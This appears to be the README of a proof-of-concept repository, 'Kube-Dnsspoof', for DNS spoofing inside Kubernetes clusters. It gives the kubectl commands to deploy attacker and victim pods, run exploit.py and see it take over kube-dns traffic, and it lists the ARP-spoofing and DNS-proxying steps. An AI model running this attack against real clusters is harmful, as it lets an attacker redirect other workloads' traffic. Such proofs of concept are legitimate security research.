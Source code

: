 # Kube-Dnsspoof

Kube-dnsspoof is a POC for DNS spoofing in kubernetes clusters.
This exploit runs with minimum capabilities, on default installations of kuberentes.

This repository contains all files and related code for running this exploit.  


## Prerequisites
A Kubernetes cluster


## Run the exploit
  
First, create the pods by:
    
```bash
$ kubectl create -f pods/
pod/hacker created     
pod/victim created   
```

After the pod was created, exec into the hacker pod. it will contain the exploit and hosts file inside the /dnsspoof folder.

```zsh
$ kubectl exec -it hacker zsh
➜  hacker /dnsspoof ls
exploit.py  hosts
➜  hacker /dnsspoof 
```

Next, edit the hosts file to contain your spoofed domains.
The script will proxy all DNS requests to the real kube-dns pod, except for the entries in the hosts file.  

Example for successful run of the exploit:
```zsh
➜  hacker /dnsspoof ./exploit.py
[*] starting attack on indirect mode
Bridge:  172.17.0.1 c0:0f:fe:eb:4b:e0
Kube-dns:  172.17.0.4 02:42:bb:76:74:f8

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

The steps of the exploit:
* Deciding whether it can run
* Discovering relevant mac/ip addresses
* ARP spoofing the bridge (and kube-dns in case of direct attack mode)
* DNS proxy requests, and spoofing relevant entries
* Restoring all network on CTRL+C interrupt


